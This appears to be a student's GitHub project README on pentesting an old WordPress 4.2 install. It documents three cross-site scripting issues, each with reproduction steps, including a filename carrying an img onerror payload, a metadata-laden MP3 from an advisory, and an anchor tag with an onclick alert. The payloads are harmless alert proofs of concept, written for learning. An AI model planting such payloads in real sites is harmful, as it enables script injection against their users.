 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Large File Upload Error XSS - Image Files
  - [X] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:
  - [X] GIF Walkthrough:
  ![]xss-file-too-big-audio.gif
  - [X] Steps to recreate:
  ```
  a. ```dd if=/dev/zero of='something<img src=a onerror=(alert('pwned'))>.png' count=1024 bs=10000``` to create a large file with the script exploit.
  b. Open WordPress > Media > Add new Image
  c. Add the newly created file.
  ```
1. (Required) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [X] Summary:
    - Vulnerability types: XSS, Metadata
    - Tested in version: 4.2.13
    - Fixed in version: 4.2.0
  - [X] GIF Walkthrough:
  ![]xss-mp3-metadata.gif
  - [X] Steps to recreate:
  ```
  The following MP3 file can be used to reproduce this issue:

  https://www.securify.nl/advisory/SFY20160742/xss.mp3

  1) upload MP3 file to the Media Library (as Editor or Administrator).
  2) Insert an Audio Playlist in a Post containing this MP3 (Create Audio
  Playlist).
  ```
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
1. (Required) Malformed HTML Tags
  - [X] Summary:
    - Vulnerability types: XSS, Embedded Tags
    - Tested in version: 4.2.0
    - Fixed in version: N/A
  - [X] GIF Walkthrough:
  ![]xss-caption-code-exploit.gif
  - [X] Steps to recreate:
  ```
    1) Create a new post
    2) Add the script on the text of the body: ```<a href="[caption code"]> </a> <a title=" onclick=alert("hi!")> something</a>```
    3) Publish
  ```

## Assets

N/A

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

## Notes

What took the most time out of this experience is setting up the environment. Other than that, the exploits were easy to implement once a blog post has a good overview and a proof of concept of the exploits.

## License

    Copyright [2018] [Excel Espina]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
